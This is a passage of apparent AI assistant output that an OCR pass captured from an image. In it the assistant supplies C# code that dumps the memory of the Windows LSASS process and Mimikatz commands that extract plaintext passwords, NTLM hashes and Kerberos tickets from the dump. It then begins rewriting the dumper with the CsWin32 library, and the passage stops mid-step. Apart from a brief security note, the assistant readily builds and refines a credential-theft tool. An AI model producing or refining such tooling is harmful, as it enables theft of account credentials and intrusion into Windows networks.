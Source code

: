 ```csharp
            {
                bool success = MiniDumpWriteDump(lsass.Handle, (uint)lsass.Id, fs.SafeFileHandle.DangerousGetHandle(), MINIDUMP_TYPE.MiniDumpWithFullMemory, IntPtr.Zero, IntPtr.Zero, IntPtr.Zero);
                Console.WriteLine(success ? "Dump successful" : "Dump failed");
            }
        }
    }
}
```

- **Explanation**:
  - This C# code works similarly to the C example, locating `lsass.exe` and dumping its memory using `MiniDumpWriteDump`.

### **Reading the Dump Offline with Mimikatz**

Once you have the `lsass.dmp` file, you can analyze it offline using Mimikatz to extract credentials:

1. **Load the Dump into Mimikatz**:

   ```cmd
   mimikatz # sekurlsa::minidump lsass.dmp
   ```

2. **Extract Credentials**:

   ```cmd
   mimikatz # sekurlsa::logonpasswords
   ```

This command will list the credentials stored in the memory dump, including plaintext passwords, NTLM hashes, and Kerberos tickets.

### **Security Considerations**

Dumping the LSASS process is a powerful but risky operation, as it can trigger security alerts (e.g., from Windows Defender or third-party AV software) and may require administrative privileges. It's important to secure your systems against such attacks by using measures like Credential Guard, disabling unnecessary admin rights, and monitoring for suspicious activity.

Certainly! You can use the CsWin32 library to generate P/Invoke signatures instead of manually writing the `DllImport` attributes. CsWin32 can automatically generate these interop signatures based on Windows API metadata.

Below is the C# code rewritten to use CsWin32 for calling the `MiniDumpWriteDump` function:

### **1. Install CsWin32:**
First, you'll need to install CsWin32 via NuGet:

```bash
dotnet add package Microsoft.Windows.CsWin32
```

### **2. Generate the P/Invoke Signature:**
Add a `NativeMethods.txt` file to your project and include the following line in it:

